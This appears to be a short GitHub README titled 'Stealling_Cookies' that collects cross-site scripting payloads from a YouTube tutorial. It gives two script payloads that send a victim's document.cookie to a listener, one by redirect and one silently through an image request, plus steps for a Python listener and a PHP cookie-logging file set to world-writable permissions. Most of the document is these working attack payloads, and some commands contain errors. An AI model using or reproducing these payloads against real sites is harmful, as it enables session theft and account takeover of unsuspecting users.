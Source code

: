 # Stealling_Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- Make log.txt file:

YasserRED> sudo touch log.txt

3- Give all Privileges:

YasserREED> sudo chmod 777 log.txt



